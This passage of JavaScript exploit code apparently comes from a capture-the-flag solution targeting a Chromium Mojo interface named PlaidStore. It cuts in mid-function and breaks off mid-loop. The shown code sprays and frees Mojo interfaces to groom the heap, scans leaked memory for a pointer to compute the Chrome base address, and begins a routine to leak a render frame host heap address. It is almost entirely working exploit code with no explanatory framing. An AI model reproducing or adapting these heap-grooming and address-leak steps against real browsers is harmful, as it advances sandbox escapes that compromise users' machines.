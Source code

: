 ```html
      var leak = resolved.data;

      for (var i = 1; i < NUM_IFACES; i += 2) {
        interfaces[i].ptr.reset();
        while (interfaces[i].ptr.isBound());
      }

      for (var i = 0; i < DEFRAG_SIZE; ++i) {
        defrag[i].ptr.reset();
        while (defrag[i].ptr.isBound());
      }

      let buffer = new ArrayBuffer(8);
      let u8_arr = new Uint8Array(buffer);
      let bi_arr = new BigUint64Array(buffer);
      let base = 0n;
      for (var i = 0; i < leak.length; i += 0x10) {
        var start_idx = i + dummy_data.length;
        let bytes = leak.slice(start_idx, start_idx+8);

        for (var j = 0; j < bytes.length; ++j)
          u8_arr[j] = bytes[j];

        let p_leak = bi_arr[0];
        let mask = 0x8b0n;

        if ((p_leak & 0xfffn) == mask && p_leak < 0x0000800000000000n) {
          base = p_leak - 0x9f3d8b0n;
          break;
        }
      }

      for (var i = 0; i < defrag.length; ++i) {
        defrag[i].ptr.reset();
        while (defrag[i].ptr.isBound());
      }

      for (var i = 0; i < interfaces.length; ++i) {
        if (interfaces[i]) {
          interfaces[i].ptr.reset();
          while (interfaces[i].ptr.isBound());
        }
      }

      return base;
    }

    /* Try to leak the render frame host from the PlaidStoreImpl */
    async function get_heap_addr(plaid_store, chrome_base) {
      var defrag = [];
      var DEFRAG_SIZE = 0x100;
      for (var i = 0; i < DEFRAG_SIZE; ++i) {
        let iface = new blink.mojom.PlaidStorePtr();
        let iface_req = mojo.makeRequest(iface);
        Mojo.bindInterface(blink.mojom.PlaidStore.name,
          iface_req.handle, "context", true);
        while (!iface.ptr.isBound());
        defrag.push(iface);
      }

      var interfaces = []
      let NUM_IFACES = 0x500;
      for (var i = 0; i < NUM_IFACES; ++i) {
```